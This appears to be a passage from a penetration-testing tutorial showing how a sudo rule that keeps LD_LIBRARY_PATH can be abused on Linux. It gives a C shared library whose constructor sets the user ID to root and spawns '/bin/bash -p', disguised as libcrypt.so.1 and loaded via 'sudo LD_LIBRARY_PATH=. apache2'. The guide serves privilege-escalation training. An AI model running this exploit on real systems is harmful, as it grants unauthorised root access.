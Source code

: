 ### **STEPS TO IDENTIFY AND EXPLOIT LD_LIBRARY_PATH**

1.  Verify which environment variables are being inherited  
    `sudo -l`  
    
    ![](../../../img/Linux-Environment/44.png)
    
2.  Identify the shared libraries required by the target application (e.g., apache2):  
    `ldd /usr/sbin/apache2`  
    
    ![](../../../img/Linux-Environment/45.png)

    ??? info "NOTE"

        the library libcrypt.so.1 is chosen due to its common use and effectiveness.
    
3.  Create  `library_path.c` C file that includes a constructor function to execute desired commands upon loading:
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void inject()__attribute__((constructor));
    
    void inject() {
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
    }
    ```
    
    ??? info "NOTE"

        The constructor attribute is a special function attribute in GCC. It instructs the compiler to automatically execute the annotated function before main() is called, allowing your commands to run as soon as the shared library is loaded..
    
4.  Compile the C file into a shared library with the same name as the target library:  
    `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
    
5.  Run the target application with sudo, setting LD_LIBRARY_PATH to include the directory containing the malicious library:  
    `sudo LD_LIBRARY_PATH=. apache2`  

    ![](../../../img/Linux-Environment/46.png)